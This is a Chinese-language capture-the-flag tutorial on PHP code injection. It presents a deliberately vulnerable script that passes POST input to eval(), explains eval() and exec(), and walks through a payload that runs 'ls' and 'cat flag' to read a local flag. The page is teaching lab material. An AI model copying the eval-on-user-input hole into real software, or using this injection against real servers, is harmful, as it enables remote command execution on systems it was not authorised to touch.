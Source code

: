 ```yaml
---
title: 通过eval( )执行系统命令
tags:
    - php
createTime: 2025/02/05 10:51:28
permalink: /security/eval/
---
```



## 概览

文件目录

::: file-tree

- workspace     \# 工作目录
  - test.php    \# php文件
  - KILLME.md   \# 演示文件
  - flag        \# flag

:::

文件内容

::: code-tabs

@tab test.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']);
?>

```

@tab KILLME.md

```md
# 不服就来砍我！
```

@tab flag

```
flag{4h1s_1s_f1ag}
```

:::


## 知识回顾

### 代码显示

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         
?>
```

`highlight_file()`是一个PHP内置函数，用于将指定文件的内容以HTML高亮的形式输出。它会读取文件内容，并以语法高亮的方式显示代码，便于阅读和调试。如果文件中包含PHP代码，它会将PHP代码以HTML高亮的形式展示，而不是直接执行代码。

`__FILE__`是PHP的一个魔术常量，返回当前脚本的绝对路径和文件名


`error_reporting()`是一个PHP内置函数，用于设置PHP的错误报告级别。

`0`表示禁用所有错误报告。这意味着PHP在运行时不会显示任何错误、警告或通知（如 E_NOTICE、E_WARNING、E_ERROR 等）


### 参数传递

使用`GET`和`POST`方法传参，以下是一个演示例子：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
if (isset($_GET['name']) && isset($_GET['gender']) && isset($_POST['id']) && isset($_POST['age'])) {
    $name = $_GET['name'];
    $gender = $_GET['gender'];
    $id = $_POST['id'];
    $age = $_POST['age'];
    echo "name:$name gender:$gender id:$id age:$age";
} else {
    echo "请传递参数给我";
}
?>
```
使用hackbar插件传参，效果如下

![](img/1.png "演示")


### eval( )

`eval()`将字符串视为PHP代码进行执行，允许在运行时动态生成并执行代码

::: code-tabs

@tab show-1.php

```php
<?php
$code = "echo 'Hello, World!';";
eval($code); // 输出：Hello, World!
?>
```

@tab show-2.php

```php
<?php
$a = 10;
$b = 20;
eval("echo \$a + \$b;");
// 输出：30
?>
```

:::

### exec( )

`exec()`是一个用于执行外部程序的功能强大的函数。它允许你在PHP脚本中运行系统命令，并可以获取命令的输出或状态码。

::: code-tabs

@tab show-1.php

```php
<?php
// 执行外部命令
$output = exec('date');
echo "当前时间: $output";
?>
```

@tab show-2.php

```php
<?php
// 执行外部命令，并将输出存储到 $output 数组中
$output = [];
$return_var = 0;
exec('ls -l', $output, $return_var);

// 检查命令是否执行成功
if ($return_var === 0) {
    echo "命令执行成功，输出如下：<br>";
    foreach ($output as $line) {
        echo htmlspecialchars($line) . "<br>";
    }
} else {
    echo "命令执行失败，状态码: $return_var";
}
?>
```

:::


## 实战

分析目标代码，我们很容易得知要对eval部分进行下手

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']); // [!code focus]
?>
```

我们可以写出对应的指令

```php
exec('ls', $output); // 在这里面添加我们想执行的指令
foreach ($output as $line) {
    echo $line . "<br>";
}

```
接着，用POST传参（可以传多个语句）
![](img/2.png)
发现flag，使用“cat flag”得到flag
![](img/3.png)

